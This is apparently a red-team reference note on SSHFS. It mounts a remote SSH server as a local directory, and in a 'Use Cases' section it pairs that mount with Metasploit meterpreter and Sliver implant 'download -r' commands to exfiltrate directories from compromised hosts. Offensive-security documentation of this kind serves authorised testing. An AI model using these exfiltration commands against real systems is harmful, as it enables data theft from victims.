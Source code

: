 # SSHFS

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #ssh #linux

## 01 - Usage

Mount SSH server as a filesystem

```
$ sudo mkdir /mnt/ssh_filesystem && sudo chown $USER:$USER /mnt/ssh_filesystem/

$ sshfs <username>@<IP>:/path/to/remote/directory/ /mnt/ssh_filesystem/ -C [-p <PORT>]
```

To unmount the filesystem

```
$ fusermount -u /mnt/ssh_filesystem/
```

## 02 - Use Cases

### 2.1 - Exfiltration over C2 channel

#### 2.1.1 - Metasploit

```
meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/
```

#### 2.1.2 - Sliver

```
sliver (IMPLANT NAME) > download -r [<drive_letter>:]/path/to/remote/directory/ /mnt/ssh_filesystem/
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Cross Platform/C2 Frameworks/Metasploit|Metasploit: Data Exfiltration]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Cross Platform/C2 Frameworks/Sliver|Sliver: Data Exfiltration]]